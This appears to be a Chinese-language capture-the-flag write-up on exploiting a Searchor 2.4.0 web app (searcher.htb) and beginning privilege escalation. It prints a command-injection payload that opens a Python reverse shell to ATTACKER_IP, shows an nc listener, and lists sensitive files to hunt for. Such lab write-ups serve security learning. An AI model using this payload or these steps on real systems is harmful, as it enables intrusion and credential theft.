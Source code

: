 在页面最后的站点版权信息中我们可以看到该站点所使用到的技术包括Flask框架以及Searchor 2.4.0

#### 🔫 攻击开始！

**第一阶段：获得普通用户权限**

Google Hacking时间，看看相关框架有没有已知的nday以及PoC可供我们利用。经过一番搜索后发现Searchor 2.40存在[RCE漏洞](https://github.com/jonnyzar/POC-Searchor-2.4.2 "RCE漏洞")！

{{< image src="https://image.p1nant0m.com/202307161729597.png" caption="Searchor Exploit PoC" src_s="https://image.p1nant0m.com/202307161729597.png" src_l="https://image.p1nant0m.com/202307161729597.png" >}}

其中的payload如下所示，

```text
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

```

使用nc在本地监听8080端口等待受害机器回弹shell，

```bash
nc -lnvp 8080
```

-   `-l`: 这个选项告诉`nc`工具要监听（listen）连接，即等待其他主机连接到指定的端口。
-   `-n`: 这个选项禁用主机名解析，只使用IP地址进行通信。
-   `-v`: 这个选项启用详细输出模式，打印更多的调试信息。
-   `-p 8080`: 这个选项指定要监听的端口号，这里是8080。

（这里免去了使用burpsuite的必要，直接向输入框中键入payload即可），最终我们在控制服务器上获得了受害机器回弹的shell，用户是svc。我们在 `/home/svc` 目录下找到了user.txt，获得了我们在普通用户权限下的第一个FLAG！**Well Done！**

**第二阶段：获得root用户权限**

我们以svc用户身份在文件系统中闲逛，搜索潜在的敏感信息以为后续的提权工作搜集信息。一些敏感的目录、文件包括：目标站点运行的工作目录，`/etc/passwd`，`.git`，`.ssh`，数据库文件，日志文件等。

在 `/home/svc` 目录下我们发现了用户的 `.gitconfig` 文件，其中的内容如下所示，

```toml
[user]
        email = cody@searcher.htb
        name = cody
[core]
        hooksPath = no-hooks
[safe]
        directory = /var/www/app
```

继续跟踪相关的目录，在 `/var/www/app` 目录下我们发现了 `.git` 目录，

{{< image src="https://image.p1nant0m.com/202307161729220.png" caption=".git directory" src_s="https://image.p1nant0m.com/202307161729220.png" src_l="https://image.p1nant0m.com/202307161729220.png" >}}

其中存在config文件，内容如下，
